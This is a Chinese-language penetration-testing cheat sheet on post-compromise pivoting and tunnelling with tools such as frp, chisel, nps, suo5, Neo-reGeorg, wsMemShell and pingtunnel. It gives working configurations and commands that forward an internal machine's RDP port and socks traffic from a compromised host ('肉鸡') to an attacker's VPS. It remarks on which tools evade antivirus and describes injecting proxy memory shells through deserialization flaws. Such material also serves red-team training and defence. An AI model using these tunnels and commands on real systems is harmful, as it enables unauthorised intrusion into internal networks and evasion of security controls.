


代理
目录
反向代理
需公网IP
frp（不魔改被乱杀）
frp，确实蛮好用的，他基本不会被杀软杀掉。而且无论是win到win，linux到linux还是win到linux的转发，它都支持。 Download；https://github.com/fatedier/frp/releases
frp分为有两个主要可执行文件，frps和frpc，对应的配置文件为frps.ini和frpc.ini。
其中frps用作服务端，在进行渗透的时候一般架设在公网VPS上，它的配置文件默认为这样
[common]
bind_port = 10067 #监听的端口
运行 frps -c frps.ini
frpc用作客户端，在进行渗透的时候一般假设在内网机器上，它的默认文件一般长这样
[common]
server_addr = 149.17.4.190 # 指定需要转发到的公网IP
server_port = 10067 # 公网VPS上所监听的端口
[socks_proxy] # 标签名，任意
type = tcp #设置转发的协议
local_ip=127.0.0.1 #填127.0.0.1就完事了
local_port=3389 #需要被转发的端口
remote_port=10068 #转发到VPS上的端口
运行 frpc -c frpc.ini
当我们在VPS上运行frps，内网机器运行frpc后，内网机器的3389端口就会被转发到公网的10068端口上，接下来我们远程链接 149.17.4.190:10068 即可连进内网机器的远程桌面了。
上面是端口映射，下面是直接走socks5代理
服务端:
[common]
bind_addr = 0.0.0.0
bind_port = 7000
# 用户密码保平安
dashboard_user = admin1
dashboard_pwd = hadaessd@@@!!@@#
# 允许客户端绑定的端口
allow_ports = 40000-50000
客户端
[common]
#remote vps addr
server_addr = your vps addr
#端口自选
server_port = 7000
tls_enable = true
pool_count = 5
[plugin_socks]
type = tcp
remote_port = 46075
plugin = socks5
plugin_user = admin
plugin_passwd = hahha@@###
use_encryption = true
use_compression = true
ssh代理（适合自用）
在本机上执行
ssh -N -f -D 本地端口 用户名@远程服务器ip
然后输入远程服务器上指定的用户名的密码，就可以通过指定的本地端口代入远程服务器内网了\~


npc（繁琐，且容易被杀）
对于linux|darwin sudo nps start
对于windows，管理员身份运行cmd，进入程序目录 nps.exe start
安装后windows配置文件位于 C:\Program Files\nps，linux和darwin位于/etc/nps
如果发现没有启动成功，可以查看日志(Windows日志文件位于当前运行目录下，linux和darwin位于/var/log/nps.log)
- 访问服务端ip:web服务端口（默认为8080）
- 使用用户名和密码登陆（默认admin/123，正式使用一定要更改）
- 创建客户端
客户端连接
- 点击web管理中客户端前的+号，复制启动命令
- 执行启动命令，linux直接执行即可，windows将./npc换成npc.exe用cmd执行
如果需要注册到系统服务可查看注册到系统服务
chisel
- 使用方便 ：
Chisel的服务器端和客户端集成在一块，这就很方便 - 高性能
- 使用SSH协议的加密连接（通过crypto/ssh）
但是，Chisel的缺点就是，它的文件比较大。（也不是很大)
vps
./chisel server -p 6666 --reverse
ssh -C -f -N -g -L 0.0.0.0:23333:127.0.0.1:1080 root@VPSIP 将6666 scoks流量转发到23333端口
肉鸡
chisel.exe client VPSIP:6666 R:socks
攻击者
直接用 socks5://vpsip:23333 进内网
iox
容易被杀，太久远了。
1、流量加密（可选）
2、友好的命令行参数
3、逻辑优化
4、UDP流量转发

脚本代理（正向代理）
不需要公网IP
suo5
相比 Neo-reGeorg 等传统隧道工具, suo5 的性能可以达到其数十倍。
但是不好免杀。 java脚本
Neo-reGeorg
性能不如suo5但是支持多种语言（ashx，aspx....）
wsmemshell（仅脚本）
https://github.com/veo/wsMemShell
websocket脚本，但是只有脚本，利用反序列化漏洞直接注入websocket代理内存马，然后直接连上用上全双工通信协议的代理。
tomcat高版本中，需要改一下脚本才能用：https://github.com/veo/wsMemShell/issues/18
wsmemshell+gost可以联用
同时该工具也有shell功能，注入websocket命令执行内存马，然后用webscoket client进行远控（chrome有插件）。
pivotnacci
https://github.com/blackarrowsec/pivotnacci
支持php，jsp，aspx。 改良版regeorg
隧道
icmp隧道pingtunnel
https://github.com/esrrhs/pingtunnel
可以将本地某端口到某ip某端口之间数据通过icmp传输。
localhost:port←icmp→ip:port
配合其它代理工具，即可实现icmp代理（如iox，ew等）
仅靠pingtunnel是无法完成代理进内网的，它只是一个数据加密工具。
icmp隧道隐藏数据的地方：

gost
go语言实现的安全隧道
可用于与wsmemshell联用。
比如wsmenshell注入的代理内存马地址为 http://1.1.1.1:1111/proxy
那么gost就输这个命令
gost -F "http://1080" -F "ws://1.1.1.1:1111?path=/proxy"
socks5代理用这个
gost -F "socks5://1080" -F "ws://1.1.1.1:1111?path=/proxy"